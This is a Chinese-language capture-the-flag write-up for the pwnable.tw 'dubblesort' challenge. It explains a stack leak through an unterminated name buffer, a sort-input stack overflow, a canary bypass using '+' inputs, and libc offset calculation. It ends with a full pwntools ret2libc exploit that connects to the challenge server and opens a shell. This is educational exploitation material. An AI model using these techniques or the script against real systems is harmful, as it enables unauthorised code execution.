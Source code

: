 ## 分析

检查可以发现保护全开

这题的逻辑很简单，输入姓名，然后输入数据，程序会对数据进行排序然后输出

## 漏洞点

首先是输入姓名的时候，程序通过read来读取name，回车就截断了，并不会在后面添加\x00，但是printf打印信息是通过\x00截断的，也就是说如果输入后如果后面不是\x00，就会接着输出，产生栈内容泄漏。

然后是在排序的阶段，并没有限制输入数字的数量，所以可以造成栈溢出。

## 利用

可以看到题目中是存在canary的，但是没办法泄漏，那有没有办法能不修改canary同时完成栈溢出呢？

如果我们输入非法字符例如字母，scanf确实无法读取，但是由于题目中输入流并不会清空，所以非法字符一直会一直留在stdin，这样剩下的scanf读入的都是非法字符，不行

另一种方案是输入+或-，因为这两个字符可以定义正负数，如果把输入数字替换成这两个符号，读入只会视为无效而不是非法，canary不会被修改。

经过调试我们可以看到在输入name的第七个栈空间中存放着疑似栈libc地址的内容

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-1.png)

利用vmmap命令进行对照

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-2.png)

可以计算得偏移为 0xf7fb2000 - 0xf7dff000 = 0x1b3000

但是需要注意的是这里我们使用的是本机上的libc文件

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-3.png)

查看文件可得此偏移地址为 .got.plt

与题目给的文件进行对照，发现服务器上的偏移应为0x1b0000

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-4.png)

而同样我们可以在这个libc文件内找到system的偏移及/bin/sh的偏移

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-5.png)

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-6.png)

libc_addr = leak_addr - 0x1b0000

system_addr = libc_addr + 0x3a940

binsh_addr = libc_addr + 0x158e8b

## exp

需要注意的是该栈单元的数据的第一个字节（即.got.plt节地址的最后一个字节，因为小端序）总为0x00，因此若要泄露该数据，需要多发送一个字节覆盖掉0x00，否则printf会将0x00之后的数据截断。可以发送'A'*24+'\n'来泄露出该数据的后三个字节，再加上'\x00'即可。

然后程序中的排序函数会对栈中内容进行修改，我们需要在输入数据时注意数据的大小，以保证canary地址不会改变，我们可以将canary之前的数据都置0，canary和返回地址之间（包括返回地址）的数据都写入system函数的地址，从而保证exp大概率可以执行成功

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-7.png)

最后需要输入的是35个数

24 * '0' + '+' + 9 \* system_addr(调试得知) + binshaddr

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
myelf = ELF("./dubblesort")
#io = process(myelf.path)
#gdb.attach(io,"break main")
io = remote("chall.pwnable.tw",10101)

io.recvuntil(':')
io.sendline('a'*24)
leak_addr = u32(io.recv()[30:34]) - 0xa

libc_addr = leak_addr - 0x1b0000
system_addr = libc_addr + 0x3a940
binsh_addr = libc_addr + 0x158e8b

io.sendline('35')
for i in range(24):
	io.sendline('0')
	io.recv()

io.sendline('+')
io.recv()
for i in range(9):
	io.sendline(str(system_addr))
	io.recv()
io.sendline(str(binsh_addr))
io.recv()
io.interactive()
```

参考

- https://www.anquanke.com/post/id/150359#h2-13

- https://www.freebuf.com/articles/others-articles/134271.html
- http://39.105.67.126/index.php/2019/09/19/pwnable-twdubblesort/
- https://p1kk.github.io/2020/07/09/tw/tw%20dubblesort/